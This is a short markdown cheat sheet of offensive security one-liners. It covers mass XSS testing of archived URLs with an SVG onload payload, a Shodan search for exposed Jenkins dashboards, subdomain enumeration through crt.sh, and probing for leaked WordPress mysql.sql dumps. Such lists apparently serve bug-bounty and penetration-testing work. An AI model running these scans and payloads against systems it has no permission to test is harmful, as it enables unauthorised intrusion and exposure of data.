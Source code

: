 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


## Mass XSS via wayback machine<br>
+``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
+``gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``


## Mass IPs listing Via Shodan<br>
+```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


## Subdomain from crt.sh<br>
+```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

## wordpress mysql <br>
+ ```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

